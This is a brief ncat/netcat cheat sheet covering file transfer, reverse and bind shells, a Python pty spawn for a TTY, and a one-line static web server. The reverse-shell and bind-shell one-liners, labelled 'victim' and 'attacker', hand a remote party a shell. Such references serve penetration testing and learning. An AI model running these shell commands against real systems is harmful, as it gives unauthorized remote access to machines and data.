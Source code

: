 ```yaml
---
category: cheat-sheet
layout: cheat-sheet
title: ncat
author: Benjamin Assadsolimani
---
```


## File Transfer

```
cat file | ncat --send-only 127.0.0.1 1234      # sender
nc -v -l -q 1 -p 1234 > file                    # receiver
```


## Reverse Shell

```
ncat -e /bin/sh 127.0.0.1 1234                  # victim
ncat -l -k -v -p 1234                           # attacker
```

## Bind Shell

```
ncat -l -k -v -e /bin/sh -p 1234                # victim
ncat 127.0.0.1 1234                             # attacker
```

## Get a TTY with Python

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Static Website

index.html:

```
HTTP/1.1 200 OK

<html><body><h1>Hello World!</h1></body></html>
```

server: `while true ; do nc -l 8080 < index.html ; done`

